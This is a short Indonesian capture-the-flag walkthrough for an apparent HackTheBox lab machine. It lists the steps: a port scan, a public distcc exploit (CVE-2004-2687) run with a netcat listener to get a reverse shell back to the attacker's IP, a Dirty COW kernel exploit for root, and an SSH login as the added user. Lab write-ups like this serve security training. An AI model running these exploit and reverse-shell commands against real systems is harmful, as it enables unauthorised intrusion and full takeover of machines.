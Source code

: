 ## Solver

Foothold
Melakukan port scanning dan didapatkan beberapa port yang aktif 21,22,139,445,3632
Browsing port 3632 didapatkan PoC mengenai CVE-2004-2687
Download public exploit dari github https://github.com/k4miyo/CVE-2004-2687/blob/k4miyo/CVE-2004-2687.py

Initial Access
Jalankan netcat listener pada port 1234
Jalankan exploit python3 CVE-2004-2687.py --rhost lame.htb --rport 3632 --lhost 10.10.14.13 --lport 1234
Didapatkan shell dengan user daemon

Privilege Escalation
Check kernel version
Kernel version 2.6.24-16-server vulnerable to CVE-2016-5195
Run exploit

SSH to user firefart ssh -oHostKeyAlgorithms=+ssh-dss firefart@lame.htb
Pwned!